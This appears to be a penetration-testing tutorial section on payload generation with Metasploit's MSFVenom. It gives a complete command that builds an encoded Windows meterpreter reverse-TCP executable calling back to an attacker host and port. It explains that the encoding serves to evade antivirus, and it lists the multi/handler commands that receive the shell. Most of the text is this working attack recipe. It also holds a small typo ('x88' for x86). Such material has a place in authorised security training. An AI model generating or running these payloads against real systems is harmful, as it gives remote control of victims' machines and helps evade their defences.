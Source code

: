 # Payload Generation Tools and Techniques

A number of tools can be used for payload generation.  This section will cover a number of the most common payload generation tools and techniques that can be used to compromise a host on a penetration testing engagement.


## Metasploit Framework MSFVenom

MSFVenom is included as part of the metasploit framework install and can be used to generate payloads to compromise a target on a penetration test.  MSFVenom works in conjunction with the metasploit framework to establish a connection to the target host.

### Microsoft Windows Payloads

The following payload will create an obfuscated meterpreter executable (.exe) for an x86 32bit system:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<Attacker_IP_Address> LPORT=<Attacker_Port> -f exe -o [SHELL NAME].exe`

A breakdown of the command:

**-p** - Name of payload to be executed on the target machine.  In this case "meterpreter reverse tcp".

**-a** - Architecture of the payload.  In this case x86 specifies a 32bit build.

**--encoder** - This specifies which encoder to use to obfuscate the meterpreter payload.  In this case x88/shikata_ga_nai has been used.  Encoding is used in an effort to obfuscate the payload to bypass antivirus detections. The `-i` command can be supplied an integer, to increase the number of encoding iterations.

**-f** - This specifies the format of the payload.  In this case this tells MSFVenom to generate the payload as a windows executable (.exe) file.

**-o**  This is the output filename of the payload, along with the .exe file extension.

The payload would then have to be transferred and executed on the target machine. 

Before executing the payload on the target machine, a payload handler must be set up within the metasploit framework. This can be achieved using the following commands:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attacker_IP_Address>
set LPORT <attacker_PORT>

```
